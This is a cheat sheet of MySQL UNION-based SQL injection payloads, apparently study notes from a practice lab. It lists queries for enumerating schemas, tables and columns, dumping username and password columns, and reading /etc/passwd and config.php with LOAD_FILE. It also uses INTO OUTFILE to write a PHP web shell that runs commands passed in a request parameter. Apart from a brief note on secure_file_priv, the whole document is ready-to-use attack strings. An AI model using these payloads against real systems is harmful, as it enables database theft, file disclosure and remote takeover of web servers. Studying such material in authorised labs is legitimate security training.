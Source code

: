 ### Database Enumeration
View current database and others
```sql
UNION SELECT 1,database()-- -
UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -
```
View tables from database
```sql
UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='database_name'-- -
```
View column names within table
```sql
UNION SELECT 1,COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='table_name'-- -
```
Dump data
```sql
UNION SELECT username, password from database_name.table_name-- -
```
Test payload
```sql
asd' union select 1,username,password,4 from ilfreight.users-- -
```
### Reading Files
Check current user
```sql
UNION SELECT 1,user()-- -
UNION SELECT 1,current_user()-- -
UNION SELECT 1,user from mysql.user-- -
```
Check super privileges (Y/N)
```sql
UNION SELECT 1, super_priv from mysql.user-- -
UNION SELECT 1, super_priv from mysql.user where user='current_user'-- -
```
Check all privileges (FILE)
```sql
UNION SELECT 1, grantee, privilege_type FROM information_schema.user_privileges
UNION SELECT 1, grantee, privilege_type FROM information_schema.user_privileges where grantee="'root'@'localhost'"-- -
```
Read file with `LOAD_FILE()` (view source code)
```SQL
UNION SELECT 1, LOAD_FILE("/etc/passwd")-- -
UNION SELECT 1, LOAD_FILE("/var/www/html/config.php")-- -
```
Test payload
```sql
asd' union select 1, LOAD_FILE("/var/www/html/config.php"),3,4-- -
```
### RCE & Writing Files
Check value of `secure_file_priv` (empty is good, NULL is bad)
```sql
UNION SELECT 1, variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
Write files using `INTO OUTFILE`
```sql
UNION SELECT 1, 'Pwn3d!' INTO OUTFILE '/var/www/html/leavemehere.txt'-- -
```
RCE via `INTO OUTFILE`
```sql
UNION SELECT null, '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```
Test payload
```sql
asd' UNION SELECT '', '<?php system($_REQUEST["cmd"]); ?>','','' INTO OUTFILE '/var/www/html/shell.php'-- -
```

secure_file_priv may be set as follows:

    If empty, the variable has no effect, which is not a secure setting.
    If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
    If set to NULL, the server disables import and export operations.
